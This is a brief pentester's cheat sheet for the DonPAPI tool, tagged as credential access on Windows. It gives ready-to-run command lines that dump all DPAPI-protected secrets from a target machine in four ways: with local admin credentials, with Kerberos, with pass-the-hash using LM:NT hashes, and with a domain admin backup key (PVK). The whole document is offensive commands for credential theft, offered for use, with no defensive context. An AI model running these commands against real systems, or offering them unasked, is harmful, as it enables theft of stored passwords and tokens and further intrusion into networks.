 # DonPAPI

% DonPAPI, dpapi

#plateform/windows  #target/local  #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

## DonPAPI - Dump all secrets of the target machine with Local Admin
```
DonPAPI -local_auth <user>@<target>
```

## DonPAPI - Dump all secrets of the target machine with Local Admin (kerberos)
```
DonPAPI -k <domain>/<user>@<target>
```

## DonPAPI - Dump all secrets of the target machine with Local Admin (pth)
```
DonPAPI --hashes <LM>:<NT> <domain>/<user>@<target>
```


## DonPAPI - Dump all secrets with Domain Admin and PVK (pth)
run dpapi.py to get PVK
```
DonPAPI -pvk <pvk_path> -o <out_path> --hashes <LM>:<NT> <domain>/<user>@<target>
```